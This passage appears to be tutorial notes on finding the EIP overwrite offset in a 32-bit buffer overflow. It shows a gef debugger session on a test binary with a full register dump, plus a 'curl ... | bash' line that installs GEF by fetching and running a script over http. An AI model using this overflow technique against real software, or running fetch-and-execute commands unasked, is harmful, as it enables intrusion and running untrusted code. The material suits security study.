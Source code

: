# CPU Registers Section
![Pasted image 20211127181005](https://user-images.githubusercontent.com/87600765/146052962-3bb254ec-a803-452b-af8b-1211167f5a87.png)
 Now we know that eip can be overwritten with 1036 + 4 bytes we can verify it with this command:
```nasm
gef➤  run $(python -c "print '\x55' * 1036 + '\x66' *4")
Starting program: /mnt/c/Users/Jojo/documents/testcode/bow32 $(python -c "print '\x55' * 1036 + '\x66' *4")

Program received signal SIGSEGV, Segmentation fault.
0x66666666 in ?? ()
[ Legend: Modified register | Code | Heap | Stack | String ]
───────────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$eax   : 0x1
$ebx   : 0x55555555 ("UUUU"?)
$ecx   : 0xffffd750  →  0x4e414c00
$edx   : 0xffffd0f0  →  0xffffd300  →  0x149dc001
$esp   : 0xffffd0f0  →  0xffffd300  →  0x149dc001
$ebp   : 0x55555555 ("UUUU"?)
$esi   : 0xf7fb2000  →  0x001e9d6c
$edi   : 0xf7fb2000  →  0x001e9d6c
$eip   : 0x66666666 ("ffff"?)
$eflags: [zero carry parity adjust SIGN trap INTERRUPT direction overflow RESUME virtualx86 identification]
$cs: 0x0023 $ss: 0x002b $ds: 0x002b $es: 0x002b $fs: 0x0000 $gs: 0x0063
───────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0xffffd0f0│+0x0000: 0xffffd300  →  0x149dc001    ← $esp
0xffffd0f4│+0x0004: 0xffffd1c4  →  0xffffd315  →  "/mnt/c/Users/Jojo/documents/testcode/bow32"
0xffffd0f8│+0x0008: 0xffffd1d0  →  0xffffd751  →  "LANG=en_US.UTF-8"
0xffffd0fc│+0x000c: 0x565561f2  →  <main+20> add ebx, 0x2e0e
0xffffd100│+0x0010: 0xffffd120  →  0x00000002
0xffffd104│+0x0014: 0x00000000
0xffffd108│+0x0018: 0x00000000
0xffffd10c│+0x001c: 0xf7de6fd6  →  <__libc_start_main+262> add esp, 0x10
─────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:32 ────
[!] Cannot disassemble from $PC
[!] Cannot access memory at address 0x66666666
─────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "bow32", stopped 0x66666666 in ?? (), reason: SIGSEGV
───────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
```

We can see that the adress of EBP is `0x55555555`. You can also do 
```shell-session
gef➤  i r ebp
ebp            0x55555555          0x55555555
```
![Pasted image 20211127182110](https://user-images.githubusercontent.com/87600765/146053541-9aaf3e24-d21b-45b8-bdda-ee5601dad527.png)

The tool I used is call GEF. GEF is a set of commands for x86/64, ARM, MIPS, PowerPC and SPARC to assist exploit developers and reverse-engineers when using old school GDB. It provides additional features to GDB using the Python API to assist during the process of dynamic analysis and exploit development. If you want to install it do 
```nasm
bash -c "$(curl -fsSL http://gef.blah.cat/sh)"
```
